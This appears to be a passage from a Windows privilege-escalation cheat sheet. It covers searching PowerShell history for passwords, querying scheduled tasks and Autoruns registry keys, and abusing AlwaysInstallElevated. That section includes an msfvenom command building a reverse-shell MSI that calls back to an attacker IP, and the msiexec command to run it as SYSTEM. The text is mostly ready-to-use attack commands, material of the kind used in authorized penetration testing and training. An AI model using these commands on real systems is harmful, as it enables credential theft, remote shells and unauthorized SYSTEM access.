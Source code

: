 {% code title="in powershell" %}
```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
(Get-PSReadlineOption).HistorySavePath
(Get-PSReadlineOption).HistorySavePath | sls pass
Get-History
```
{% endcode %}

## Scheduled Tasks

```
schtasks /query /tn vulntask /fo list /v
```

## AlwaysInstallElevated

**If** these 2 registers are **enabled** (value is **0x1**), then users of any privilege can **install** (execute) `*.msi` files as NT AUTHORITY\\**SYSTEM**.

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Generate the malicious file

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

```shell-session
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Autoruns

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries" %}

Query the registry for AutoRun executables:

```bash
#CMD
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\RunE

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices
```